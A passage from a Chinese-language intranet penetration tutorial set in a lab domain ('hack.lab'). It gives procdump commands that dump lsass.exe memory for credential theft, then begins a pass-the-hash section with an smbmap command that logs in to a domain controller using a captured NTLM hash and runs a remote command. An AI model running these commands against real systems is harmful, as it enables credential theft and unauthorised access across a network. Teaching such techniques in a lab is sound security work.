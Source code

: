当然我们也可以使用`procdump`这个程序来导出 lsass.dmp，只需在命令行获取 system 权限操作即可。

该工具是微软官方的一款工具：**[Download ProcDump](https://link.zhihu.com/?target=https%3A//download.sysinternals.com/files/Procdump.zip)**

执行以下命令即可导出 lass.dmp：

```
32位机器：procdump.exe -accepteula -ma lsass.exe lsass.dmp 
64位机器：procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp

```

Pass The Hash
-------------

如果内网主机的本地管理员账户密码相同，那么可以通过 pass the hash 远程登录到任意一台主机，操作简单、威力无穷。

下面会使用几种方法来进行攻击，用到的工具有 Smbmap、CrackMapExec、Smbexec 等。

比如我们现在的环境是：

DC：172.16.0.106(域管用户 testuser)

Win7：172.16.0.105(从这台获取到了 hash)

kali：172.16.0.107

域：hack.lab

testuser 的 hash：de26cce0356891a4a020e7c4957afc72

### Smbmap

SMBMAP 允许用户在整个域中枚举 Samba 共享驱动器。列出共享驱动器，驱动程序权限，共享内容，上载 / 下载功能，文件名自动下载模式匹配，甚至执行远程命令。

下载：

```
git clone https://github.com/ShawnDEvans/smbmap
cd smbmap

```

安装一下模块：

```
python3 -m pip install -r requirements.txt

```

这款工具 kali 也有内置，我们可以直接使用：

```
smbmap -u testuser -p 'aad3b435b51404eeaad3b435b51404ee:de26cce0356891a4a020e7c4957afc72' -H 172.16.0.106 -d hack.lab -x 'whoami'

```

> aad3b435b51404eeaad3b435b51404ee 上我们讲过是 LM hash 默认的值  

如下图所示：
